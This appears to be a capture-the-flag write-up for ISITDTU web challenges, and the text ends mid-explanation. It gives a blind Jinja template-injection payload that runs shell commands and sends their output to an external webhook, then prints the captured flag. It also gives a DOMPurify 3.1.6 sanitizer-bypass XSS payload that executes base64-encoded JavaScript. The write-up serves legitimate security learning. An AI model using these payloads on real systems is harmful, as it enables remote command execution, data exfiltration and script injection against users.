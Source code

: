 => Blind SSTI => To view the command output we can create a webhook and send that to this endpoint 

```json!
{
  "template": "{{ url_for.__globals__['__builtins__']['__import__']('urllib2').urlopen('https://webhook.site/0139531b-9559-42d0-a71a-b43e039822c2/?flag=' + url_for.__globals__['os'].popen('ls').read()) }}"
}

```

![image](https://hackmd.io/_uploads/BJ0d1iieyl.png)


The payload running the `ls` command returns an error because the output contains control characters -> we can see the name of the flag file is `gnp6kw338gg6`

Now simply run the command `cat gnp6kw338gg6`


![image](https://hackmd.io/_uploads/H10Fbiilye.png)



![image](https://hackmd.io/_uploads/HkK5xsig1g.png)



```
ISITDTU{N0W_y0u_kn0w_h0w_T0_m4k3_1t_r3Fl3ct3d!!}
```

### X Éc Éc

![image](https://hackmd.io/_uploads/S15h6cigkx.png)



The version used is DOMPurify 3.1.6., in this tweet https://x.com/kinugawamasato/status/1843687909431582830 the payload has been fixed in DOMPurify version 3.1.7.

=> This is most likely the solution payload

Tried and successfully triggered XSS

![image](https://hackmd.io/_uploads/rJhSZojgkg.png)

```!
<svg><a><foreignobject><a><table><a></table><style><!--</style></svg><a id="-><img src onerror=alert(document.domain)>">
```

Upgraded payload a bit for easier use

```!
<svg><a><foreignobject><a><table><a></table><style><!--</style></svg><a id="-><img src onerror=eval(atob('base 64 payload'))>">
```

And encode base64 this js script
